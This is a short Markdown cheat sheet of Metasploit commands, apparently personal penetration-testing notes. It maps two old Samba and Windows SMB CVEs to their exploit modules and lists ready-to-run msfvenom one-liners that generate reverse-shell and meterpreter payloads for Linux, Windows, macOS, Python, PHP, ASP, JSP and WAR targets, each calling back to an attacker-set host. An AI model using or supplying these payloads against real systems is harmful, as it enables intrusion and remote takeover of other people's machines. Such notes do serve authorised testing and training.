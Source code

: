 # Metasploit
#exploit #msf #metasploit


## Post-Modules
Name | Desc
--- | ---
`local_exploit_suggester` | finds exploits in x86 envs


## Correlation
Service | CVE | MSF-Module
--- | --- | ---
Samba 3.0.20 | [CVE-2007-2447](https://nvd.nist.gov/vuln/detail/CVE-2007-2447) | exploit/multi/samba/usermap_script
Windows <7| [CVE-2008-4250](https://nvd.nist.gov/vuln/detail/CVE-2008-4250) | exploit/windows/smb/ms08_067_netapi


## MSFVenom
Source: https://netsec.ws/?p=331
Name | Desc
--- | ---
`msfvenom -l` | show payloads


### OS
Name | Desc
--- | ---
`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<LHOST> LPORT=<LPORT> -f elf > shell.elf` | ELF / Linux
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=<LHOST> LPORT=<LPORT> -f exe > shell.exe` | EXE / Windows
`msfvenom -p osx/x86/shell_reverse_tcp LHOST=<LHOST> LPORT=<LPORT> -f macho > shell.macho` | macho / Mac / OSX

### Prog-Langs
Name | Desc
--- | ---
`./msfvenom -p python/meterpreter/reverse_tcp lhost=192.168.1.1 -f raw -o test.py` | Python payload

### Web
Name | Desc
--- | ---
`msfvenom -p php/meterpreter_reverse_tcp LHOST=<LHOST> LPORT=<LPORT> -f raw > shell.php && cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php` | PHP
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=<LHOST> LPORT=<LPORT> -f asp > shell.asp` |  ASP
`msfvenom -p java/jsp_shell_reverse_tcp LHOST=<LHOST> LPORT=<LPORT> -f raw > shell.jsp` | JSP
`msfvenom -p java/jsp_shell_reverse_tcp LHOST=<LHOST> LPORT=<LPORT> -f war > shell.war` | WAR